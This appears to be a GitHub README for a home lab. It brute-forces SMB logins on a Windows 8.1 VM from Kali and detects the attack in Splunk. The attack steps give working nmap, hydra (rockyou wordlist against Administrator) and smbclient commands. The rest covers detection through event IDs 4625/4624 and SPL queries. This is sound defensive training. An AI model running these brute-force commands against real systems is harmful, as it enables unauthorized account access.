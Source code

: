 # Brute Force Detection (Windows 8 + Splunk)

This lab simulates a brute-force attack on a Windows 8.1 VM using the SMB protocol and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1110: Brute Force
- T1078: Valid Accounts

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `hydra`: for brute-force attack
- `smbclient`: for SMB access attempts
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

### 1. Scan the target for open ports (RDP/SMB) (Kali)
```bash
nmap -sV -O -p- 192.168.29.236
```
![Description for image 1](../Screenshots/BF-img1.png) 

### 2. SMB Brute Force via Hydra (Kali)
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236
```
or 
```bash
hydra -l Futwear -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236 
```
![Description for image 1](../Screenshots/BF-img2.png) 

### 3. Login to smb with valid credentials (Kali)
**checks available shares**
```bash
smbclient -L //192.168.29.236 -U Futwear
```

![Description for image 1](../Screenshots/BF-img3.png) 

**To access and login to the smb shares**
```bash
smbclient -U Futwear //192.168.29.236/IPC$ -m SMB2
```
![Description for image 1](../Screenshots/BF-img4.png) 

**Successfully Logged on**

### 4. Investigate in Splunk

**Event code - 4625 : Failed logon** ,
**Event code - 4624 : Successfull logon**

Set the time frame to **last 15 mins / last 60 mins:**
   ```spl
   index=main EventCode=4625 | stats count by Account_Name, Logon_Type, Failure_Reason
   ```

![Description for image 1](../Screenshots/BF-img5.png)

### 🔐 Logon Type Interpretation

| Logon Type | Meaning                  | Brute-force Likely? |
|------------|--------------------------|----------------------|
| 2          | Interactive (local login) | ❌ No (local)         |
| 3          | Network (SMB, remote share) | ✅ Yes               |
| 10         | RemoteInteractive (RDP)  | ✅ Yes                |
| 7          | Unlock                   | ❌ No                 |

> 📌 **Tip**: If you see many Logon Type `3` or `10` failures, that's a clear sign of a brute-force attack.

**Find failed login events:**
```spl
   index=main EventID=4625 LogonType 3 hostname="WIN-BSKF7AVFT5R"
```
![Description for image 1](../Screenshots/BF-img6.png)

**Successfull login from same IP**
```spl
   index=main EventID=4624 LogonType 3 hostname="WIN-BSKF7AVFT5R" IpAddress 192.168.29.30
```
![Description for image 1](../Screenshots/BF-img7.png)
![Description for image 1](../Screenshots/BF-img8.png)

**Investigation in Splunk from above images:**

* Many failed login events (4625) (logon-type = 3): 53,761
* Time frame : less than 15 min
* The origin IPAddress is same : 192.168.29.30
* we can also observe there is less time gap between last bruteforce attempt (timestamp - 22/05/2025 21.49.01.000) and succesfull login (event id  - 4624)(timestamp - 22/05/2025 21.49.30.000) from the same IP address

![Description for image 1](../Screenshots/kali-ip.png)

**Other ways of spl queries to detect bruteforce attacks:**
* Failed Logins (Event ID 4625)
   ```spl
    index=wineventlog EventCode=4625 IpAddress!="-" IpAddress!=""
    stats count by IpAddress, Account_Name
    where count > 5
    sort - count
   ```

* Successful Login After Brute Force (Event ID 4624)
   ```spl
   index=wineventlog EventCode=4624 IpAddress!="-" IpAddress!=""
   stats count by IpAddress, Account_Name
   ```